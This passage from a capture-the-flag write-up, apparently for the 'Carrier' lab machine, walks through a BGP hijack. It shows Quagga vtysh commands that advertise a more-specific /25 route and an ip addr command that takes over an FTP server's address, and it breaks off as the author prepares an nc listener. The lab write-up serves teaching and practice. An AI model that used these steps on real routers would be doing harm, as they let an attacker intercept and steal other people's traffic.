 > NOTE: The way I did BGP Hijacking was not the intended one, but it was much easier and faster. For a clear explanation of the intended method, I recommend you to watch [ippsec's video](https://www.youtube.com/watch?v=2ZxRA8BgmnA) or to read [0xdf's writeup](https://0xdf.gitlab.io/2019/03/16/htb-carrier.html).

#### Fake route Advertising

Quagga routers can be administrated via `vtysh`. In order to **advertise a route to the BGP neighbors**, the following commands are enough:

```bash
root@r1:~# vtysh
vtysh

Hello, this is Quagga (version 0.99.24.1).
Copyright 1996-2005 Kunihiro Ishiguro, et al.

r1# conf t
conf t
r1(config)# router bgp 100
router bgp 100
r1(config-router)# network 10.120.15.0/25
network 10.120.15.0/25
r1(config-router)# exit
exit
r1(config)# exit
exit
```

The prefix **/25** is voluntarily more specific than **/24** so that our route will be given **a higher priority**.

#### Changing eth2 ip address

Now, we have to **add the ip address of the FTP server to eth2 interface**.

```bash
root@r1:~# ip addr add 10.120.15.10/25 dev eth2
ip addr add 10.120.15.10/25 dev eth2
root@r1:~# ip a
ip a
[...]
12: eth2@if13: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default qlen 1000
    link/ether 00:16:3e:20:98:df brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 10.78.11.1/24 brd 10.78.11.255 scope global eth2
       valid_lft forever preferred_lft forever
    inet 10.120.15.10/25 scope global eth2
       valid_lft forever preferred_lft forever
    inet6 fe80::216:3eff:fe20:98df/64 scope link
       valid_lft forever preferred_lft forever
```

The Nigerian Prince should now be **redirected to our machine**. We can verify this by **listening on port 21** with `nc`:
